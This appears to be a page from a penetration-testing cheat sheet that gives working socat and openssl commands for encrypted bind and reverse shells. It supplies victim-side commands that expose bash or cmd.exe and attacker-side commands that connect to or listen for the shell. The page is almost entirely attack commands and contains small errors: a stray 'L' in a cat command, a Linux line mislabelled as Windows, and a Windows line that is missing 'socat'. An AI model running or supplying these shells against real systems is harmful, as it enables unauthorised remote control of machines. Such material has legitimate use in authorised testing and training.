 #### **Encrypted Bind Shell:** <a href="#toc475369001" id="toc475369001"></a>

```
# Genereate Openssl key and certificate

openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
```

```
# Covert the key file and certificate file to .pem file

cat bind.key bind.crt L > bind.pem
```

{% hint style="info" %}
Share the .pem file to victim machine as this is a bind shell
{% endhint %}

```
# Victim Machine

socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash //for windows

socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes //for windows


# Attacker Machine

socat - OPENSSL:<Victim IP>:4443,verify=0
```

#### Encrypted Reverse Shell: <a href="#toc475369001" id="toc475369001"></a>

```
# Genereate Openssl key and certificate

openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.mydom.com/O=My Company Name LTD./C=US' -out bind.crt
```

```
# Covert the key file and certificate file to .pem file

cat bind.key bind.crt L > bind.pem
```

```
# Attacker Machine

socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT


# Victim Machine

socat OPENSSL:192.168.168.1:4443,verify=0 EXEC:/bin/bash // for linux

OPENSSL:192.168.168.1:4443,verify=0 EXEC:'cmd.exe',pipes // for windows
```
